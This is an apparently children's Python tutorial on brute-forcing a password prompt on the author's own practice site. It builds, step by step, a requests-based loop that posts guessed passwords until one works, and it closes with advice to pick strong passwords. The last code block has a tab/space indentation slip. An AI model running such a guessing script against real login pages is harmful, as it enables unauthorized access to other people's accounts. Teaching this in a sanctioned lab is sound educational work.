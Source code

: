 # Hacking Challenge

![](screenshots/login.png)

Go to this website and try to guess the password.  Try as many times as you'd like.

https://arecker.pythonanywhere.com/

Pretty tedious, huh?  Good thing we know how to write python.  Today we're going to write a python program that will guess the password for us.  All we'll need to do is give it a long list of password to try, then we just let it rip!  Let's get started.

First, let's create an empty file in our workstation.  I'm going to call mine `guess.py`, but feel free to name it whatever you'd like, as long as it doesn't have any weird characters in it.

![](screenshots/create-a-file.png)

This will take you to the python coding screen.  As we type code, you can run it by clicking the big blue **>>> Run** button in the top right.  Just to make sure we got that down, go ahead and enter this code.

```python
print("HELLO KIDSCODE MADISON")
```

Then click the **>>> Run** button.  You should see the message printed out.

![](screenshots/hello.png)

Did you see the message?  If so, sweet!  If not, don't sweat it - just grab a friend or a KidsCode mentor.  They'll know what to do.

Now that we know our editor is working, delete all that.  First things first, we'll want to save off the URL of the website we're trying to hack in a variable.  Go ahead and enter this code in your editor.

```python
url = 'https://arecker.pythonanywhere.com'
print(url)
```

![](screenshots/url.png)

So we have the URL saved inside a variable within our program.  Normally, we would type that into a web browser, but is it possible to do that with python?  You bet it is!  We're going to need a little help though.  To do something complicated with python - like connect to a webpage - we're going to need to **import** a library.  Give this code a spin.

```python
url = 'https://arecker.pythonanywhere.com'

import requests
response = requests.get(url)
print(response)
```

![](screenshots/response.png)

What the heck does `Response [200]` mean?  It literally means "OK" in internet speak.  We've made a successful connection to a web page using python.  The result of the request is saved in our `response` variable.  When `response` is printed, it just shows up in our console as `<Response [200]>`, but behind the scenes there is a whole bunch of information we can access.  For instance, we can print the text of the response by just adding `.text`, like this.

```python
url = 'https://arecker.pythonanywhere.com'

import requests
response = requests.get(url)
print(response.text)
```

![](screenshots/html.png)

Woah, Nelly - that's a lot of text!  All that junk that was printed in the console is **HTML**.  When printed to your terminal, it looks like code.  That's just because your terminal doesn't know what to do with it.  Your **web browser**, on the other hand, knows how to turn the code into different fonts, colors, arrangments, and animations.

So we can connect to the web page with python, and now we can even read the web page in python, but how to we try to log in?  In your code, swap out `.get` with `.post`.

```python
url = 'https://arecker.pythonanywhere.com'

import requests
response = requests.post(url)
print(response.text)
```

![](screenshots/post.png)

What happened here?  In our first example, we used `.get()` to request information from a web page.  It turns out you can also submit information back to webpages.  This is what the `.post()` function does.  Just as before, we saved the response in a variable and printed the text, but this time we got a message back.  The website is telling us that "password" is required.

Just for kicks, visit https://arecker.pythonanywhere.com again in your browser again.  See what happens when you click "Login" without typing in a password.

![](screenshot/required.png)
p
See?  There's nothing magical happening in our python code.  It's doing the same thing as the web browser.   Just like our code, when you click "Login", it submits information back to the website.  Let's heed the website's warning and actually try sending a password.  Change your code to look like this.

```python
url = 'https://arecker.pythonanywhere.com'

import requests
response = requests.post(url, data={'password': 'hello'})
print(response.text)
```

![](screenshot/incorrect.png)

Hey-hey-hey - we got something different back.  Don't be so pessimistic, friend.  Even a message that says `INCORRECT` is something to celebrate.  It means that we've figured out how to test password guesses in our program.  Let's create a list of password to try out.  Change your code to this.

```python
url = 'https://arecker.pythonanywhere.com'

guesses = [
    'hello', 'goodbye', 'cheeseburgers', 'hotdogs'
]

import requests

for guess in guesses:
    response = requests.post(url, data={'password': guess})
    print(response.text)
```

![](screenshots/list.png)

WOAH!  Let's recap.  So instead of just trying one password, we stuffed a whole bunch in a list of words, which we saved in the variable `guesses`.  Then, using **a for loop**, we performed the same code from before on each word.  As you may have guessed, the for loop goes through each word in the list, saving it in the variable `guess`.

**Not working?** No problem, just double check that...

- ...there is a **quote** around each word in our `guesses` list
- ...there is a **comma** between each word in our `guesses` list
- ...there is a **colon** after `for guess in guesses`

Let's tweak our code to print out the password it tried along with the response text.  This will make it easier to see what's going on.

```python
url = 'https://arecker.pythonanywhere.com'

guesses = [
    'hello', 'goodbye', 'cheeseburgers', 'hotdogs'
]

import requests

for guess in guesses:
    response = requests.post(url, data={'password': guess})
    print(guess + ': ' + response.text)
```

![](screenshots/guess.png)

Great!  So now as our program is rolling through passwords, we can see which guesses it's making and which of them worked.  But how do we stop the program once it finds a correct guess?  First, instead of just printing `response.text`, let's save it off in a variable.

```python
url = 'https://arecker.pythonanywhere.com'

guesses = [
    'hello', 'goodbye', 'cheeseburgers', 'hotdogs'
]

import requests

for guess in guesses:
    response = requests.post(url, data={'password': guess})
    text = response.text
    print(guess + ': ' + text)
```

Now, we can use an **if statement** to compare the value of `text` with something.  What will `text` be if the password is correct?  If we knew that, then we wouldn't be writing a program to figure it out!  That might be unknown to us, but we definitely know what an incorrect guess looks like from all of our practice thus far.  Let's modify our code to exit the loop if the value of `text` is not equal to "INCORRECT".

```python
url = 'https://arecker.pythonanywhere.com'

guesses = [
    'hello', 'goodbye', 'cheeseburgers', 'hotdogs'
]

import requests

for guess in guesses:
    response = requests.post(url, data={'password': guess})
    text = response.text
    if text != 'INCORRECT':
        print('The correct password is ' + guess)
	break
    print(guess + ': ' + text)
```

Quick recap: our code is still trying each password in our `guesses` list, but after it receives a response from the website and saves the text in our `text` variable, it checks to see if `text` is not equal (or `!=` in python speak) to "INCORRECT".  If `text` is something different, then our program prints out a message then exits the loop with `break`.

You can run the code, but it's not going to look any different.  Did you think I would be dumb enough to put the correct password in the tutorial?  It's up to you to hack the website now.  Don't worry, armed with this program, you'll be able to find the correct password a lot faster than if you were doing it by hand.  With programs like this one, hackers can infiltrate their way into websites.  And since a program is doing all the work, they don't mind if it takes hours, days, weeks, months, or even years to find the right one.  Imagine if your program could send you a text message or an email when it found the correct match.  Worse yet, think of all the people who simply use the same password for every account.  If you find one, you find them all!

The moral of the story is this: pick good passwords.  If possible, use a tool to generate random characters.  As long as it's a password that a stranger couldn't guess, you'll be protected form brute force attacks.
